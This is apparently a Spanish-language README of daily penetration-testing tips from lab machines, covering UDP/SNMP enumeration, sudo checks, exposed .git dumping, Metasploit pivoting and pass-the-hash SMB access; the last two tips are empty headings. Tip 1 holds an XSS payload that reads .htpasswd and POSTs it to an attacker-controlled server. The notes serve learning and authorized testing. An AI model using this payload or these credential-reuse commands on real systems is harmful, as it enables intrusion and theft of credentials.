

# 365 Tips De Hacking
En este repo quiero contribuir una vez al día, diariamente publicare una técnica o tip que aprenda, la meta es estudiar diario y aprender algo nuevo cada día, esto lo hago como un registro y por si en algún momento vuelvo a utilizar algo de aqui :p 
## Índice
- [Tip 1:  Lectura de archivos desde un XSS](#tip-1-lectura-de-archivos-desde-un-xss)
- [Tip 2:  Siempre escanea los puertos UDP](#tip-2-siempre-escanea-los-puertos-udp)
- [Tip 3:  Puertos internos abiertos](#tip-3-puertos-internos-abiertos)
- [Tip 4:  Comando SUDO](#tip-4-comando-sudo)
- [Tip 5:  Información sensible en /.git publicos](#tip-5-información-sensible-en-git-publicos)
- [Tip 6:  Pivoting con metasploit](#tip-6-pivoting-con-metasploit)
- [Tip 7: Uso de smbclient con el hash NTLM](#tip-7-Uso-de-smbclient-con-el-hash-ntlm)
- [Tip 8:  Acceso a cualquier archivo en Windows con SeBackupPrivilege](#tip-8-Acceso-a-cualquier-archivo-en-Windows-con-SeBackupPrivilege)
- [Tip 9:  Port Forwarding y pivoting desde metasploit](#tip-9-port-forwarding-y-pivoting-desde-metasploit)
- [Tip 10: Fuerza bruta con hydra al protocolo HTTP](#tip-10-fuerza-bruta-con-hydra-al-protocolo-http)
## Tip #1: Lectura de archivos desde un XSS
Al descubrir un XSS se puede realizar la lectura de archivos locales mediante peticiones a un servidor web propio, la idea es enviar el XSS payload a un usuario que si pueda acceder a ciertos archivos del servidor, por ejemplo el archivo .htpasswd, a continuación muestro el payload:
```javascript
<script>
fetch("http://ejemplo.com/.htpasswd").then(response => response.text())
  .then(data => fetch("http://<servidor.del.atacante>", {
      method: "POST",
      body: data
  }));
</script>
```
Ahora nosotros nos ponemos a la escucha en ```netcat``` y al enviar el payload al administrador recibiremos el archivo:
```netcat
┌──(jorge㉿pentest)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.27] from (UNKNOWN) [{redacted}] 48096
POST / HTTP/1.1
Host: 10.10.14.27:1234
Connection: keep-alive
Content-Length: 57
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: {redacted}
Referer: {redacted}
Accept-Encoding: gzip, deflate

<pre>{redacted}
</pre>
```
## Tip #2: Siempre escanea los puertos UDP
Regularmente en el equipo de Red Team al realizar una auditoria nos enfocamos en los puertos TCP, sin embargo, no viene mal revisar que puertos UDP se encuentran abiertos, algunas veces se puede descubrir información de usuarios y tecnologias que utiliza la organización, por ejemplo en el siguiente escaneo de UDP se descubrio el puerto 161/udp correspondiente a smtp:
```bash
┌──(jorge㉿pentest)-[~]
└─$ /bin/cat PuertosUDP
# Nmap 7.94SVN scan initiated Fri Jan  3 19:46:48 2025 as: /usr/lib/nmap/nmap -p- -sU --min-rate 10000 -n -v -Pn -oN PuertosUDP 10.10.11.48
Warning: 10.10.11.48 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.48
Host is up (0.071s latency).
Not shown: 65459 open|filtered udp ports (no-response), 75 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/share/nmap
# Nmap done at Fri Jan  3 19:48:01 2025 -- 1 IP address (1 host up) scanned in 72.81 seconds
```
Despues se utilizo la herramienta ```smtpwalk``` de donde se logro obtener información de las tecnologias de la organización, por ejemplo el uso de daloradius:
```bash
┌──(jorge㉿pentest)-[~]
└─$ snmpwalk -v2c -c public 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (1394652) 3:52:26.52
iso.3.6.1.2.1.1.5.0 = STRING: "Daloradius server"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A."
```
## Tip #3: Puertos internos abiertos
Despues de lograr acceso a un equipo es conveniente revisar que puertos abuertos estan en uso, esto por que tal vez utilicen softwares que solo son visibles desde el interior a la red, para hacer esto utizamos la herramienta ```netstat```:
```bash
alberto@local:~$ netstat -tln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 ::1:8080                :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
alberto@local:~$ curl -I 127.0.0.1:8080
HTTP/1.1 200 OK
Host: 127.0.0.1:8080
Date: Mon, 06 Jan 2025 05:05:05 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.24
Content-type: text/html; charset=UTF-8
```
Como se puede observar en el puerto 8080 existe un servidor web no visible desde el exterior, es probable encontrar distitas vulnerabilidades ahi.

## Tip #4: Comando SUDO
El comando sudo nos permite ejecutar programas como super user, es decir ```root```, esto se puede utilizar para escalar privilegios en el sistema, una buena practica despues de obtener acceso al sistema es revisar que programas podemos ejecutar como root sin necesidad de proporcionar una contraseña, en el ejemplo a continuación el usuario puede ejecutar todos los comandos como super usuario pero tiene que introducir su contraseña antes:
```bash
┌──(jorge㉿pentest)-[~]
└─$ sudo -l
Matching Defaults entries for jorge on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jorge may run the following commands on pentest:
    (ALL : ALL) ALL
```
A diferencia del usuario anterior el ejemplo a continuación puede ejecutar un programa como superusuario sin necesidad de proporcionar contraseña, despues de ver la ruta y el programa que es podriamos intentar modificarlo para lograr escalar privilegios:
```bash
alberto@local:~$ sudo -l
Matching Defaults entries for alberto on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User alberto may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
## Tip #5: Información sensible en /.git publicos
Al realizar fuzzing a una web a veces se encuentra el directorio ```.git``` publico, aqui se puede encontrar información sensible como contraseñas, tokens y codigo fuente, existen dos alternativas para analizar este directorio:
### Herramientas git
Primero descargaremos el directorio:
```bash
wget -r http://www.target.com/.git/
```
Despues dentro del directorio descargado utilizaremos ```diff```:
```bash
git diff
```
Despues de este comando podremos obsevar todas las modificaciones que se han hecho a los archivos, esto puede ser util por si en algun momento hubo contraseñas o tokens en el codigo y fueron eliminadas se pueden recuperar desde ahi.

### Generar el codigo fuente original
Existe una herramienta capaz de extraer los archivos del proyecto y luego utilizando ```zlib``` escribe el codigo fuente segun la estructura orignal, esto es muy util ya que se pueden encontrar muchos archivos con contraseñas:
```bash
python3 GitHack.py http://www.target.com/.git/
```
Esta herramienta esta disponible aqui -> https://github.com/lijiejie/GitHack

## Tip #6: Pivoting con metasploit
Se le conoce como pivoting a la tecnica en la cual utilizas una maquina intermedia que tiene conectividad en dos segmentos de red para hacer llegar ataques desde tu maquina original, el esquema lo explica mejor:



Lo primero que debemos observar es que la IP de nuestra maquina de atacante es la ```10.10.48.3```:
```bash
root@pentest:~# ip address
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ip_vti0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/ipip 0.0.0.0 brd 0.0.0.0
97188: eth1@if97189: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:0a:30:03 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.10.48.3/24 brd 10.10.48.255 scope global eth1
       valid_lft forever preferred_lft forever
```
Para realizar el pivoteo es importante primero obtener una sesión de meterpreter en la maquina pivote, una vez hecho esto, veremos su configuaración de IPs:
```bash
meterpreter > shell
Process 2972 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::174:4cdc:e7b7:58d4%13
   IPv4 Address. . . . . . . . . . . : 10.3.17.190
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 10.3.16.1
```
Como podemos observar la IP es ```10.3.17.190``` con una mascara de subnet ```255.255.240.0``` el gateway ```10.3.16.1```, lo que nos indica que se encuentra en un segmento diferente, si realizamos un ping hasta la IP ```10.3.29.55``` observamos su respuesta:
```bash
C:\Windows\system32>ping -n 1 10.3.29.55
ping -n 1 10.3.29.55

Pinging 10.3.29.55 with 32 bytes of data:
Reply from 10.3.29.55: bytes=32 time<1ms TTL=128

Ping statistics for 10.3.29.55:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```
Si intentamos un ping desde nuestra maquina de atacante no obtendremos respuesta:
```bash
root@pentest:~# ping -c 1 10.3.29.55
PING 10.3.29.55 (10.3.29.55) 56(84) bytes of data.

--- 10.3.29.55 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
```
Esto indica que tenemos que utilizar la maquina que tiene conexion a la red ```10.10.48.0/24``` y a la red ```10.3.0.0/20```, que en este caso tambien es la maquina en la que tenemos nuestra sesion de meterpreter, para realizar el pivoting debemos agregar las rutas con el siguiente comando:
```bash
meterpreter > run autoroute -s 10.3.29.55/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.3.29.55/255.255.240.0...
[+] Added route to 10.3.29.55/255.255.240.0 via 10.3.17.190
[*] Use the -p option to list all active routes
```
Ahora veremos la configuracion del archivo de proxychains en nuestra maquina de atacante, vemos que el protocolo es ```socks4``` y el puerto es el ```9050```:
```bash
root@pentest:~# tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```
Ahora en la maquina con la sesión de meterpreter abierta utilizaremos el auxiliar ```auxiliary/server/socks_proxy``` y modificaremos las opciones ```SRVPORT``` y ```VERSION```:
```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 4a
VERSION => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy

```
Ahora si podemos utilizar nuestra maquina para explotar la maquina no visible a traves de la maquina pivote, aqui se realiza el escaneo de puertos con ```nmap```:
```bash
root@pentest:~# proxychains nmap -p445 -n -v -Pn -sS 10.3.29.55
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2025-01-12 20:45 IST
Initiating SYN Stealth Scan at 20:45
Scanning 10.3.29.55 [1 port]
Completed SYN Stealth Scan at 20:45, 2.02s elapsed (1 total ports)
Nmap scan report for 10.3.29.55
Host is up.

PORT    STATE    SERVICE
445/tcp open microsoft-ds

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.09 seconds
```
Ahora todas las herramientas que queramos  utilizar solo haremos uso de proxychains para enviarlas a la maquina de la red interna.
## Tip #7: Uso de smbclient con el hash NTLM
En ocaciones logramos obtener un hash NTLM que no logro ser crackeado por fuerza bruta, se puede acceder al servidor ```smb``` unicamente con el hash, podemos observar que el recurso ```Recurso``` es accesible para el usuario ```victima```:
```bash
root@pentest:~# crackmapexec smb 192.168.100.11 -u victima -H 5835048ce94ad0564e29a924a03510ef --shares
SMB         192.168.100.11     445    PENTEST    [*] Windows Server 2012 R2 Standard 9600 x64 (name:PENTEST) (domain:pentest.local) (signing:False) (SMBv1:True)
SMB         192.168.100.11     445    PENTEST    [+] pentest\victima 5835048ce94ad0564e29a924a03510ef                                                                                                                        
SMB         192.168.100.11     445    PENTEST    [+] Enumerated shares
SMB         192.168.100.11     445    PENTEST    Share           Permissions     Remark
SMB         192.168.100.11     445    PENTEST    -----           -----------     ------
SMB         192.168.100.11     445    PENTEST    ADMIN$                          Remote Admin
SMB         192.168.100.11     445    PENTEST    C$                              Default share
SMB         192.168.100.11     445    PENTEST    IPC$            READ            Remote IPC
SMB         192.168.100.11     445    PENTEST    print$          READ,WRITE      Printer Drivers
SMB         192.168.100.11     445    PENTEST    Recurso         READ,WRITE      
```
Para inspeccionar mejor el recurso podemos acceder con ```smbclient``` sin necesidad de proporcionar la contraseña, para eso utilizaremos el parametro ```--pw-nt-hash``` que indicara que utilizaremos el hash NTLM en lugar de la pass:
```bash
root@pentest:~# smbclient //192.168.100.11/Recurso -U victima%5835048ce94ad0564e29a924a03510ef --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 12 20:55:12 2025
  ..                                  D        0  Sun Jan 12 20:55:12 2025
  SECRETOS                            D     4597  Thu Aug 22 21:09:40 2024
```
## Tip #8: Acceso a cualquier archivo en Windows con SeBackupPrivilege
## Tip #9: Port Forwarding y pivoting desde metasploit
